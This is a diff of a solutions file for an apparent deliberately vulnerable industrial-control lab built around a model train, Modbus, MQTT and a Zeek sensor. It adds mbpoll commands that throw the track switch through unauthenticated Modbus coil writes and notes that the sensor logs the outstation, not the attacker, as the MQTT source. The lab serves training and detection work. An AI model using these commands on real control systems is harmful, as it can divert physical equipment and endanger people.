

Before and after one commit to cspoonsy/ZeekTrack, a Markdown page: attacker/SOLUTIONS.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/attacker/SOLUTIONS.md
+++ b/attacker/SOLUTIONS.md
@@ -20,10 +20,15 @@ The target services on the Docker network are:
 
 - `web-mqtt` or `web-modbus` — FastAPI HTTP, port 8000
 - `mosquitto` — MQTT broker, port 1883 (both train MQTT and the switch)
-- `controller` — Modbus outstation, port 5020 (Modbus mode only)
+- `controller` — Modbus outstation, port 5020. Under the event configuration
+  it mediates BOTH the train (HR 0/1/2 + coil 0) AND the track switch
+  (coils 1/2 + DIs 2/3/4). See M10 for the switch surface.
 - `switch-controller-mqtt` — MQTT client that owns the Circuit Cubes
   switch. Not a listening port; discoverable only by seeing it publish
-  to `choochoo/switch/+/state` on the broker.
+  to `choochoo/switch/+/state` on the broker. Under the event
+  configuration the outstation also publishes to the switch's cmd/throw
+  topic when its coils are written, so an attacker on `1883/tcp` will see
+  the outstation appearing as a legitimate switch client.
 
 Deeper "why each attack works" reference: `VULNERABILITIES.md` (host).
 
@@ -109,6 +114,26 @@ asyncio.run(go())
 PY
 ```
 
+**The outstation also mediates the track switch (see M10).** Coils 1 and 2
+are edge-triggered switch throws — a Modbus master doesn't need to speak
+MQTT to divert the train:
+
+```sh
+# Read the switch DIs (position + online flag) — DIs 2/3/4, so `-r 3 -c 3`.
+mbpoll -m tcp -p 5020 -a 1 -t 0 -r 3 -c 3 controller
+
+# Throw the switch to straight (coil address 1, mbpoll `-r 2`).
+mbpoll -m tcp -p 5020 -a 1 -t 0 -r 2 -c 1 controller 1
+
+# Throw the switch to curve (coil address 2, mbpoll `-r 3`).
+mbpoll -m tcp -p 5020 -a 1 -t 0 -r 3 -c 1 controller 1
+```
+
+The outstation is now an MQTT client itself: coil writes translate into
+`ThrowCommand` publishes on the switch broker. A Zeek sensor sniffing
+`mqtt_publish.log` sees the outstation as the source, NOT the attacker —
+correlate Modbus writes on 5020 with MQTT publishes on 1883 by timestamp.
+
 ## 4. The third path: the web API
 
 In both modes the operator's web UI is on `0.0.0.0:8000` with `*` CORS and
````
Also changed, not shown: README.md (+11 -0 lines), VULNERABILITIES.md (+58 -0 lines).
